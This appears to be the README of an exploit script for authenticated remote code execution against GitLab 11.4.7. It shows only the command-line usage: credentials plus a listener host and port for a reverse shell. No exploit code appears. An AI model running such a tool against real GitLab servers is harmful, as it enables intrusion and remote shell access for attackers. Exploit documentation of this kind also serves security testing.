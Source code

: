 # GitLab-11.4.7-Authenticated-Remote-Code-Execution


<h3> Usage : python gitlab_rce.py -U <USERNAME> -P <PASSWORD> -l <LHOST> -p <LPORT>
  

usage: gitlab_rce.py [-h] [-U U] [-P P] [-l L] [-p P]

GitLab 11.4.7 Authenticated RCE

optional arguments:
  -h, --help  show this help message and exit
  -U U        GitLab Username
  -P P        Gitlab Password
  -l L        rev shell lhost
  -p P        rev shell lport
